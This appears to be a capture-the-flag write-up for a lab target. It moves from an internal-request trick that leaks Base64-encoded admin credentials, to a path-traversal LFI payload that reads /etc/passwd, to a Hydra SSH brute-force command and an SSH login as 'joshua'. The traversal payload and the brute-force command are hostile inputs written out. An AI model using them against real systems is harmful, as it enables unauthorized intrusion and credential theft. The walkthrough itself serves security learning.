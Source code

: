 Navigating to http://target_ip:4000/admin/api showed a JSON API:

![Screenshot 2025-06-12 at 16 07 17](https://github.com/user-attachments/assets/c021979e-6d3e-4c99-9da3-5cf15744b04a)


In the settings section, I attempted an internal request::

`http://127.0.0.1:5000/getAllAdmins101099991`

This returned a Base64-encoded string. After decoding it: 

```
echo 'base64 code' | base64 decode
```

I recovered admin credentials, then logged in at 'http://target_ip:50000'


![1](https://github.com/user-attachments/assets/add8a5dd-eba4-4521-bdb4-953831fdd897)


First flag found!

While inspecting the page source after logging into the admin panel on port 50000, I noticed a suspicious PNG reference:

 <img width="903" alt="Screenshot 2025-06-12 at 16 20 30" src="https://github.com/user-attachments/assets/8da06863-ddab-4b4a-853e-edad8b0329a0" />

This hinted at a potential LFI vulnerability. I tested it by modifying the img parameter:  

```
http://target_ip:50000/profile.php?img=....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd
```
And it worked!

![1](https://github.com/user-attachments/assets/633a2a8a-999f-4584-82a9-be373a1c21c9)


I was able to read /etc/passwd, confirming the vulnerability.

From the file, I identified potential usernames — including joshua.

With the discovered username (joshua), I tried brute-forcing SSH credentials using Hydra:
```
hydra -l joshua -P /usr/share/wordlists/fasttrack.txt target_ip ssh
```

<img width="929" alt="1" src="https://github.com/user-attachments/assets/a69dc2db-4758-46ef-8846-4506b9e03cce" />


It was successful!

Now with valid credentials, I connected via SSH:

```
ssh joshua@target_ip
```

<img width="820" alt="2" src="https://github.com/user-attachments/assets/ffbb0a12-6887-4122-b64f-30451269125d" />
